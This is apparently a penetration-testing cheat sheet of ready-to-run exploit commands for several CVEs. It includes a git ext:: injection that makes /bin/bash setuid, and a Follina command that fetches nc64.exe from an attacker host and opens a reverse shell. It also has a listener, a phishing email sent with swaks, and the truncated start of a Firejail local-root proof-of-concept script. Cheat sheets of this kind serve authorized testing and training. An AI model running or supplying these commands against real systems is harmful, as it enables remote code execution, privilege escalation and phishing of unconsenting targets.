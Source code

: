```console
$ <FILE>.py 'ext::sh -c chmod% +s% /bin/bash'
```

## CVE-2022-30190: MS-MSDT Follina RCE

> https://github.com/JohnHammond/msdt-follina

```console
$ python3 follina.py -p 80 -c 'powershell.exe Invoke-WebRequest http://<LHOST>:8000/nc64.exe -OutFile C:\\Windows\\Tasks\\nc64.exe; C:\\Windows\\Tasks\\nc64.exe -e cmd.exe <LHOST> <LPORT>'
```

```console
$ python3 -m http.server 8000
```

```console
$ nc -lnvp <LPORT>
```

```console
$ swaks --to <EMAIL> --from <EMAIL> --server <RHOST> --body "http://<LHOST>/"
```

## CVE-2022-31214: Firejail LPE

> https://seclists.org/oss-sec/2022/q2/188

> https://www.openwall.com/lists/oss-security/2022/06/08/10

```python
#!/usr/bin/python3

# Author: Matthias Gerstner <matthias.gerstner () suse com>
#
# Proof of concept local root exploit for a vulnerability in Firejail 0.9.68
# in joining Firejail instances.
#
# Prerequisites:
# - the firejail setuid-root binary needs to be installed and accessible to the
#   invoking user
#
# Exploit: The exploit tricks the Firejail setuid-root program to join a fake
# Firejail instance. By using tmpfs mounts and symlinks in the unprivileged
# user namespace of the fake Firejail instance the result will be a shell that
# lives in an attacker controller mount namespace while the user namespace is
# still the initial user namespace and the nonewprivs setting is unset,
# allowing to escalate privileges via su or sudo.

import os
import shutil
import stat
import subprocess
import sys
import tempfile
import time
from pathlib import Path

# Print error message and exit with status 1
def printe(*args, **kwargs):
    kwargs['file'] = sys.stderr
    print(*args, **kwargs)
    sys.exit(1)

# Return a boolean whether the given file path fulfils the requirements for the
# exploit to succeed:
# - owned by uid 0
```